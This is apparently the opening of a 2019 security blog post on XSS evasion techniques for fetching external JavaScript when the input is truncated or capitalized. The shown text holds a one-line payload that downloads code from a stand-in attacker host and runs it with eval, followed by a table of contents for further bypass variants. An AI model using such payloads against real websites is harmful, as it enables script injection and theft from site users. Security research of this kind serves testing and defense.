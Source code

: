 ```yaml
---
layout: article
show_edit_on_github: false
title:  "XSS evasion techniques to fetch an external resource"
date:   2019-02-23 19:31:52 +1300
tags:   xss evasion
article_header:
  type: cover
  image:
    src: /images/xss-fetch-evasion/cover.png
aside:
  toc: true
---
```


So you popped that sweet `alert(1)` and now want to do something that's actually useful, but the input is being truncated to 15 characters? Or maybe your input is being capitalized? Let's look at some ways to go around it.

# The payload

In this post I'll only look at fetching an external resource, rather than doing anything fancy within the inline XSS. Obviously this won't always work if the target is behind an egress firewall.

For example purposes the malicious JavaScript is at `//evil/js`. The payload, in a nutshell is:

```
fetch('//evil/js').then(r=>r.text().then(eval))
```

<br/>

---

<br/>

# Table of Contents

Encodings marked with :four_leaf_clover: can be easily customized for arbitrary payloads using either the `fetch_helpers.py` script in the [Appendix](#appendix-helper-script), or by trivial editting.

* [First things first](#first-things-first)
  * [Event handlers](#event-handlers)
* [Dealing with limited space](#dealing-with-limited-space)
  * [Usecase: character limit is &gt;= 20 (not including wrapping)](#usecase-character-limit-is--20-not-including-wrapping)
  * [Usecase: character limit is &gt;= 13 (not including wrapping)](#usecase-character-limit-is--13-not-including-wrapping)
  * :four_leaf_clover:[Usecase: character limit is &gt;= 10](#usecase-character-limit-is--10)
    * [How to modify it](#how-to-modify-it)
* [Dealing with capitalization](#dealing-with-capitalization)
  * :four_leaf_clover:[Usecase: payload is being capitalized, character limit &gt;= 131 (not including wrapping and length of external resource URL)](#usecase-payload-is-being-capitalized-character-limit--131-not-including-wrapping-and-length-of-external-resource-url)
    * [Explanation](#explanation)
  * :four_leaf_clover:[Usecase: payload is being capitalized, character limit &gt; ~342 (not including wrapping, may vary depending on external resource URL)](#usecase-payload-is-being-capitalized-character-limit--342-not-including-wrapping-may-vary-depending-on-external-resource-url)
    * [Explanation (with comments)](#explanation-with-comments)
    * [How to modify it](#how-to-modify-it-1)
  * [Usecase: payload is being capitalized, character limit &gt;= 10](#usecase-payload-is-being-capitalized-character-limit--10)
* [Appendix: Helper script](#appendix-helper-script)
